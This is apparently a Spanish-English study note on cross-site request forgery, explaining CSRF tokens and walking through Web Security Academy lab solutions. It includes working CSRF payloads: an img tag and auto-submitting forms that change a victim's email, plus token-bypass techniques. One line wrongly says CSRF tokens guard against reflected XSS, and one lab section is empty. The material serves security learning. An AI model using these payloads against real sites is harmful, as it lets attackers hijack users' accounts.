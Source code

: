 # Cross-site request forgery (CSRF)

> Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy,
>  which is designed to prevent different websites from interfering with each other.


## What are CSRF tokens?

> A CSRF token is a unique, secret, unpredictable value that is generated by the server-side application and transmitted to the client in such a way that it is included in a subsequent HTTP request made by the client. When the later request is made, 
> the server-side application validates that the request includes the expected token and rejects the request if the token is missing or invalid.

***Puede ayudar a proteger contra XSS reflejados*** porque:

> CSRF tokens can prevent CSRF attacks by making it impossible for an attacker to construct a fully valid HTTP request suitable for feeding to a victim user. 
Since the attacker cannot determine or predict the value of a user's CSRF token, they cannot construct a request with all the parameters that are necessary for the application to honor the request.


## How should CSRF tokens be validated?

> When a CSRF token is generated, it should be stored server-side within the user's session data. When a subsequent request is received that requires validation, the server-side application should verify that the request includes a token which matches the value that was stored in the user's session. This validation must be performed regardless of the HTTP method or content type of the request. If the request does not contain any token at all, it should be rejected in the same way as when an invalid token is present.

## Como atacar 

> The delivery mechanisms for cross-site request forgery attacks are essentially the same as for reflected XSS. Typically, the attacker will place the malicious HTML onto a web site that they control, and then induce victims to visit that web site. This might be done by feeding the user a link to the web site, via an email or social media message. Or if the attack is placed into a popular web site (for example, in a user comment), they might just wait for users to visit the web site.

Por ejemplo:

```
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">

```

Algunas ocaciones la aplicacion valida el TOKEN cuando se hace una peticion POST pero ***NO valida cuando se realiza una peticion GET***
Otras ocaciones la aplicaciones permiten hacer cosas sin el token asi que hay que probar.
Tambien otra vulnerabilidad es que la app usa un pool de tokens entonces tu podrias crearte un usuario obtener un token valido e intentar usarlo para otros usuarios.
Otro vector de ataque es que se asigna un token en base a la cookie.

> This situation is harder to exploit but is still vulnerable. If the web site contains any behavior that allows an attacker to set a cookie in a victim's browser, then an attack is possible. The attacker can log in to the application using their own account, obtain a valid token and associated cookie, leverage the cookie-setting behavior to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack.

# Labs

##  CSRF vulnerability with no defenses

Para este lab no se tiene defensas entonces con que la victima de click en un codigo como este:

```

<form method="POST" action="https://0a0d00b604a855c2c086536600b800d8.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="a1&#64;test&#46;com">
</form>
<script>
        document.forms[0].submit();
</script>

```

Se estaria cambiando su email.

## CSRF where token validation depends on request method

Para este ejemplo si cuenta la app con proteccion pero solo para el metodo post pero si lo intentas por el metodo GET si cambia el email aqui el ejemplo

```
<form method="GET" action="https://0a1f006e03d8dd12c0fe542800c400ba.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="a1&#64;test&#46;com">
</form>
<script>
        document.forms[0].submit();
</script>

```

## CSRF where token validation depends on token being present

En este caso si ves burp cuando se realiza la peticion y modificas el toquen CSRF no realiza la peticion pero si se lo quitas completamente entonces si
cambia.


```
Mismo codigo que la peticion POST(arriba)
```

## CSRF where token is not tied to user session




NOTA: Se puede utilizar la herramienta "csrf-poc-generator-master" para generar un poc de una peticion genera un script parecido.

